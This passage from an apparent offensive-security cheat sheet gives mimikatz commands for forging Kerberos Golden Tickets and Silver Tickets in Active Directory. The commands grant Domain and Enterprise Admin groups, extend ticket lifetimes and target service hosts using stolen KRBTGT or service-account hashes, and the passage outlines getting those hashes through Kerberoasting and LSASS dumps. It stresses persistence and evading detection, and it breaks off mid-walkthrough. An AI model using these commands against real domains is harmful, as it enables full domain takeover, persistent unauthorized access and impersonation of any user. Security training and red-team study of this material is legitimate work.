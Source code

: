 ```bash
mimikatz "kerberos::golden /user:normaluser /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:d9485863c1e9e05851aa40cbb4ab9dff /groups:512,513,518,519,520 /ptt"
# Groups: 512=Domain Admins, 513=Domain Users, 518=Schema Admins, 519=Enterprise Admins, 520=Group Policy Creator Owners

# Extended validity period
mimikatz "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:d9485863c1e9e05851aa40cbb4ab9dff /startoffset:-10 /endin:600 /renewmax:10080 /ptt"
# /startoffset: Start time offset in minutes
# /endin: Ticket lifetime in minutes
# /renewmax: Maximum renewal time in minutes

# Why Golden Tickets are ultimate persistence:
# - Survives password changes (except KRBTGT)
# - Bypasses most authentication controls
# - Can impersonate any user including non-existent ones
# - Difficult to detect without specific monitoring
# - Provides complete domain access
```

### **Silver Ticket Attacks**

**What Silver Ticket attacks are:** Forged Kerberos service tickets using compromised service account password hashes. Provides persistent access to specific services without domain admin privileges.

**Why Silver Tickets are useful:** More targeted than Golden Tickets, require only service account hash, harder to detect, and provide persistent service access.

```bash
# Silver Ticket attack methodology

# Step 1: Obtain service account hash
# Through Kerberoasting and password cracking
# Or through local privilege escalation on service host
# Or through LSASS memory dump

# Step 2: Gather required information
# Service Principal Name (SPN)
setspn -L serviceaccount                     # List SPNs for service account

# Service host domain SID
# Service account password hash (NTLM)

# Step 3: Create Silver Ticket
# Using mimikatz
mimikatz "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /target:sql01.domain.local /rc4:aad3b435b51404eeaad3b435b51404ee:hash /service:MSSQLSvc /ptt"

# Parameters explanation:
# /target: Target service host
# /service: Service type (MSSQLSvc, HTTP, CIFS, etc.)
# /rc4: Service account NTLM hash

# Common service types for Silver Tickets:
# - CIFS: File sharing access
# - HTTP: Web application access
# - MSSQLSvc: SQL Server access
# - LDAP: Directory service access
# - HOST: Various host services

# Step 4: Access target service
# Example: SQL Server access
```